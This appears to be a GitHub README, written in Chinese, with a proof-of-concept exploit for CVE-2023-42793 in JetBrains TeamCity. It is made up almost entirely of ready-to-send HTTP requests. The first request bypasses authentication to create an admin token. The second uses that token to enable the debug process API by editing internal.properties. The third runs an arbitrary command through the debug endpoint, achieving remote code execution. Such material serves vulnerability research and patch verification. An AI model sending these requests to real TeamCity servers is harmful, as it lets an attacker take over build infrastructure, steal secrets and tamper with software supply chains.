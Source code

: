 ### CVE-2023-42793

笔记可见: [TeamCiry-CVE](https://racerz.notion.site/TeamCity-97715f211a4d4548b1c876cb74e39a9a?pvs=4)

- POC

  通过绕过鉴权实现添加 admin token 创建

  ```
  POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
  Host: localhost:8111
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Upgrade-Insecure-Requests: 1

- RCE POC

  之后利用获取到的 token 开启 admin debug API，重载配置实现 RCE

  ```
  POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1
  Host: localhost:8111
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Authorization: Bearer {{token}}
  Content-Type: application/x-www-form-urlencoded
  Upgrade-Insecure-Requests: 1
  ```

  ```
  POST /app/rest/debug/processes?exePath=id HTTP/1.1
  Host: localhost:8111
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Authorization: Bearer {{token}}
  Upgrade-Insecure-Requests: 1
  ```

  